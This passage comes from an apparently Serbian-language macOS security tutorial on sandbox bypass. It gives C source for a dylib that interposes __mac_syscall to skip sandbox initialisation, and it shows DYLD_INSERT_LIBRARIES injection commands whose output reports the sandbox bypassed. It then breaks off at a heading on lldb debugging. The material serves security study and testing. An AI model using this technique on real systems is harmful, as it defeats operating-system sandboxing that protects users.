 ```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand
_libsecinit_initializer called
Sandbox Bypassed!
```
#### Interpost `__mac_syscall` da sprečite Sandbox

{% code title="interpose.c" %}
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>
#include <string.h>

// Forward Declaration
int __mac_syscall(const char *_policyname, int _call, void *_arg);

// Replacement function
int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
printf("__mac_syscall invoked. Policy: %s, Call: %d\n", _policyname, _call);
if (strcmp(_policyname, "Sandbox") == 0 && _call == 0) {
printf("Bypassing Sandbox initiation.\n");
return 0; // pretend we did the job without actually calling __mac_syscall
}
// Call the original function for other cases
return __mac_syscall(_policyname, _call, _arg);
}

// Interpose Definition
struct interpose_sym {
const void *replacement;
const void *original;
};

// Interpose __mac_syscall with my_mac_syscall
__attribute__((used)) static const struct interpose_sym interposers[] __attribute__((section("__DATA, __interpose"))) = {
{ (const void *)my_mac_syscall, (const void *)__mac_syscall },
};
```
{% endcode %}
```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand

__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 0
Bypassing Sandbox initiation.
__mac_syscall invoked. Policy: Quarantine, Call: 87
__mac_syscall invoked. Policy: Sandbox, Call: 4
Sandbox Bypassed!
```
### Debug & bypass Sandbox with lldb
